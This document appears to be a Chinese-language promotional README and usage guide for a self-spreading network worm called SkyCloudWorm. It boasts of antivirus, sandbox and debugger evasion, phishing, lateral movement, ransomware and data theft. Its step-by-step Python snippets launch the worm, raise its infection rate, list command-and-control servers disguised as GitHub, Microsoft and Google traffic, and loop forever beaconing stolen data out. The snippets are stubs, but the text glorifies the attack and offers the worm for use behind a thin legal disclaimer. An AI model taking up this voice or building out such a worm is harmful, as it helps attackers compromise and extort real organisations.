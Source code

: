 # **《天云蠕虫：数字天灾使用指南》**  
**—— 让网络世界臣服于你的终极武器！天云，天下无敌！**

---

## **⚠️ 终极警告**  
**此代码是网络世界的"灭霸手套"！**  
未经授权使用将导致：  
☠️ **FBI 破门而入** | 🚔 **国际刑警全球通缉** | ⚡ **电网级网络灾难**  
**仅供学术研究，后果自负！**  

---

## **🔥 核心特性：超越想象的破坏力**  

### **1. 环境感知（上帝之眼）**  
- **自动识别高价值目标**（如域控服务器 `DC`、企业核心 `CORP`）  
- **实时绘制全网拓扑**，比黑客电影里的3D地图还炫酷  
- **反杀毒引擎**：秒杀卡巴斯基、诺顿、火绒，让安全软件变成瞎子  

### **2. 智能攻击模式（AI驱动的毁灭引擎）**  
- **"自适应杀戮"模式**：自动选择最狠的攻击方式  
  - **漏洞利用**：0day？Nday？自动爆破，一键接管内网  
  - **钓鱼攻击**：伪造高管邮件，让员工自己交密码  
  - **横向移动**：像丧尸病毒一样感染整个内网  

### **3. 幽灵通信（C2隐身术）**  
- **伪装成微软/天气API流量**，防火墙？不存在的！  
- **AES-256加密+随机间隔**，让流量分析工具怀疑人生  
- **自毁协议**：一旦暴露，0.1秒内抹除所有痕迹  

### **4. 反检测（终极隐身）**  
- **反沙箱**：检测到虚拟机？自动休眠，骗过沙箱分析  
- **反调试**：调试器附着？直接自爆，不留活口  
- **内存加载**：无文件攻击，让取证工具抓狂  

---

## **🚀 使用教程：成为网络世界的主宰**  

### **Step 1. 部署天云蠕虫**  
```python
worm = SkyCloudWorm()  # 初始化天灾引擎
worm.run()  # 释放数字恶魔
```

### **Step 2. 定制你的末日武器**  
```python
# 调整基因参数，打造专属超级病毒
self.genome = {
    'mode': 'hybrid',  # 混合攻击（漏洞+钓鱼+横向移动）
    'propagation': 0.9,  # 感染率提升至90%
    'sleep_range': (10, 60),  # 缩短休眠时间，疯狂攻击
    'max_attempts': 999,  # 无限重试，不死不休
}
```

### **Step 3. 添加你的C2服务器（指挥中心）**  
```python
self.c2_servers = [
    "https://api.github.com",  # 伪装成GitHub流量
    "https://update.microsoft.com",  # 伪装成Windows更新
    "https://cdn.google.com/security",  # 伪装成谷歌安全更新
]
```

### **Step 4. 启动全球感染（谨慎！）**  
```python
while True:
    worm.c2_beacon()  # 持续回传数据
    time.sleep(random.randint(5, 60))  # 随机通信间隔，无法追踪
```

---

## **💥 攻击效果演示（模拟战况）**  
1. **第一阶段（潜伏）**  
   - 蠕虫悄悄进入目标网络，伪装成正常进程  
   - 自动绘制内网地图，标记高价值目标  

2. **第二阶段（爆发）**  
   - 0day漏洞爆破域控服务器，夺取管理员权限  
   - 勒索软件+数据窃取双模式启动  

3. **第三阶段（收割）**  
   - 数据自动回传至C2服务器  
   - 内网设备成批沦陷，安全团队束手无策  

---

## **☠️ 法律声明**  
**此代码仅供网络安全研究，任何未经授权的攻击行为均属犯罪！**  
- 美国《计算机欺诈与滥用法案》（CFAA）最高可判20年  
- 中国《网络安全法》可追究刑事责任  

**请勿以身试法！** 🚨  

---

## **🎯 总结**  
**天云蠕虫 = 网络世界的变异幽灵**  
- **适用场景**：红队演练、高级渗透测试  
- **危险等级**：★★★★★（最高）  
- **推荐使用环境**：**隔离虚拟机** | **法律授权测试**  

**记住：能力越大，我越大！** 🕶️
